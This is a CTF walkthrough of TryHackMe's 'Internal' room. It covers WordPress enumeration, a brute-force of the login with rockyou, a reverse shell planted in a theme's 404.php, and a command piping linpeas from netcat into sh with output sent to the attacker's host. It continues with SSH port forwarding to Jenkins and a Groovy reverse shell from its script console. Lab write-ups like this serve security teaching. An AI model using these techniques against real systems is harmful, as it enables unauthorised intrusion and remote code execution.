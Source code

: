 *2021-09-04*

*kimm3*

# Walkthrough: Internal
Platform: TryHackMe

Difficulty: Hard

- [Link](https://tryhackme.com/room/internal)

![msf](assets/markdown-img-paste-20210901170932956.png)

![hosts](assets/markdown-img-paste-20210901170942364.png)
## Setup
![ll](assets/markdown-img-paste-20210826112245589.png)

![hosts](assets/markdown-img-paste-20210901171957778.png)

```
script history/enum1
export IP=10.10.65.102
```
## Scans and enumeration
`threader3000`

![t3000](assets/markdown-img-paste-20210901171446855.png)

Two open ports, ssh and http. Seems to be apache on a ubuntu machine.

![index](assets/markdown-img-paste-20210901171642215.png)

Not much to go on here, let's go dir-searching.

`dirsearch -u 10.10.93.23 -e toools/webext.txt -o scans/dirs-init --format=md`

![dirs-init](assets/markdown-img-paste-20210902051436887.png)

So we have a wordpress site and phpmyadmin exposed.

Blog index:

![blogindex](assets/markdown-img-paste-20210901172231313.png)

![wp-login](assets/markdown-img-paste-20210901172348537.png)

Admin/password does not work, however the user admin exists.

![adminlogin](assets/markdown-img-paste-20210901172448296.png)

Wp-scan dosen't say much, it basically just confirms that the admin user exists.

![wpscan](assets/markdown-img-paste-2021090204373376.png)

![phpmyadminlogin](assets/markdown-img-paste-20210902044345474.png)

![phpmadefault](assets/markdown-img-paste-2021090204460976.png)

Default credentials not working for phpmyadmin.

Trying to brute wp-login, since no other obvious exploits.

`wpscan --password-attack "wp-login" --url "http://internal.thm/blog/" -U user.txt -P sl/Passwords/Leaked-Databases/rockyou.txt`

![wp-login-admin](assets/markdown-img-paste-20210902052258626.png)

Success.

## Foothold/Exploit
(There was some credentials in a hidden post, viewable by admin, didn't lead anywhere.)

We can upload or edit php files to create reverse shell.

![unalbetocreatetheme](assets/markdown-img-paste-2021090205521427.png)

Server not allowed to write to theme folder?

The problem with editing a file that's in use is that it will be noticeable by users, if we edited the index.php, it wouldn't load for anyone and revshell would be triggered every time someone requested it.

Im going to edit the 404.php page, which will usually load when we enter a url that dosen't exist, this will make it not super obvious at least, it just won't load.

![edited404](assets/markdown-img-paste-20210902060035366.png)

We have the url path from the wp-scan.

`curl "http://internal.thm/wordpress/wp-content/themes/twentyseventeen/404.php"`

```
nc -lvnp 443
SHELL=/bin/bash script -q /dev/null
[CTRL+Z]
stty raw -echo; fg
```

`curl "http://internal.thm/wordpress/wp-content/themes/twentyseventeen/404.php"`

![shell](assets/markdown-img-paste-20210902060526390.png)

We land a shell as www-data.

```
id # user and groups
cat /etc/passwd # looking for users
ls -l /etc/shadow # looking at perms
find / -perm -4000 -exec ls -ldb {} \; 2>/dev/null # setuid files
find / -perm -2000 -exec ls -ldb {} \; 2>/dev/null # setgid files
ls -la /var/www/html/ # checking write perms
```

We don't have access to user(aubreanna) home folder, and no write perms in www folder.

I would like to run linpeas. We could do it in memory and outputing to netcat.

`nc -l 10.10.204.170 -p 8080 | sh | nc 10.8.210.115 1234`

To make sure it's running, you can view the transfer with `tcpdump -nnvv port 1234 -i tun0` or just view the output as it writes, `tail -f scans/linpeas.txt`.

The credentials to connect to the database is 'wordpress'  with password 'wordpress123', works to login to phpmyadmin.

![w123password](assets/markdown-img-paste-20210902080219491.png)

![phpmyadminloggedin](assets/markdown-img-paste-20210902080143606.png)

There's an sudo [exploit](https://www.exploit-db.com/exploits/18436) for our version, but doubt it will work since we need permissions to run chown, which we don't.

More enumeration, manually checking folders:

- tmp
- var
- srv
- media
- opt

![optwp](assets/markdown-img-paste-20210902083657951.png)

Credentials found.

![aubreanna](assets/markdown-img-paste-20210902083848791.png)

'user.txt' aquired.

aubreanna dosen't have sudo privs. We saw from linpeas output that ssh allowed password authentication.

![sshaubreanna](assets/markdown-img-paste-20210902084211385.png)

Now we can continue doing things encrypted.

![dockerip](assets/markdown-img-paste-20210902084259291.png)

We can see in linpeas and elsewhere that docker is running, and port 8080 is redirected there.

![dockerredirect](assets/markdown-img-paste-20210902084418347.png)

We don't get any banner when using nc to the dockerfile. Since it's port 8080, let's redirect that to our machine and try with a web browser.

`ssh -L 8080:localhost:8080 aubreanna@10.10.204.170`

![jenkinsexposed](assets/markdown-img-paste-20210902084819122.png)

![jenkinsinfo](assets/markdown-img-paste-20210902084848101.png)

Too obvious for me, found this in aubreanna home folder:

![jenkinstxt](assets/markdown-img-paste-20210902085656763.png)

Brute forcing this with hydra was a bit above my skill level because of crumbs, but using zap worked. Capture a request and fuzz the password with a wordlist. A smaller repsonse header reveals correct password.

![rheader](assets/markdown-img-paste-20210902102806374.png)

![loc1](assets/markdown-img-paste-20210902102821159.png)

![loc2](assets/markdown-img-paste-20210902102830871.png)

## Privilege Escalation
Logging in we can execute commands via the script console using java/groovy syntax.

![idjava](assets/markdown-img-paste-20210902102903754.png)

You could set up docker to have permissions on local disks, but this didn't. Have a look in `/etc/mtab` as well.

![lsblk](assets/markdown-img-paste-20210902103957988.png)

![ping](assets/markdown-img-paste-20210902104244672.png)

We have access to our host so we could start a revshell for easier enumeration.

Used [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy) groovy script.

![groovyrevsh](assets/markdown-img-paste-20210902104922668.png)

![groovyshell](assets/markdown-img-paste-20210902105045510.png)

![notetxt](assets/markdown-img-paste-20210902110929470.png)

Once again, the opt folder is the way to go. Let's try these at the internal machine.

![roottxt](assets/markdown-img-paste-20210902111044327.png)

Works.
